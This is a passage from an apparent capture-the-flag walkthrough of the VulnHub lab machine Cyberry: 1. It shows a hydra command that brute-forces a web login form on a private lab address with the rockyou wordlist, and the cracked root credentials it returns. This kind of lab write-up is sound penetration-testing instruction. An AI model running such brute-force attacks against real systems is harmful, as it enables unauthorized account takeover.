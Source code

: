 ![non-exist.png](/assets/images/posts/cyberry-1-walkthrough/cyberry-5.png)

_If the user exists and the password is invalid_

![exist.png](/assets/images/posts/cyberry-1-walkthrough/cyberry-6.png)

With this in mind, let's do a online password cracking with `hydra`.

```
# hydra -l root -P /usr/share/wordlists/rockyou.txt -f -e sr 192.168.198.128 http-post-form "/login.php:username=^USER^&password=^PASS^:not valid"
[80][http-post-form] host: 192.168.198.128 login: root password: password
```

### Berrypedia Admin Panel


[1]: https://www.vulnhub.com/entry/cyberry-1,217/
[2]: https://twitter.com/@cyberrysec
[3]: https://www.vulnhub.com
[4]: https://en.wikipedia.org/wiki/Brainfuck
[5]: https://copy.sh/brainfuck/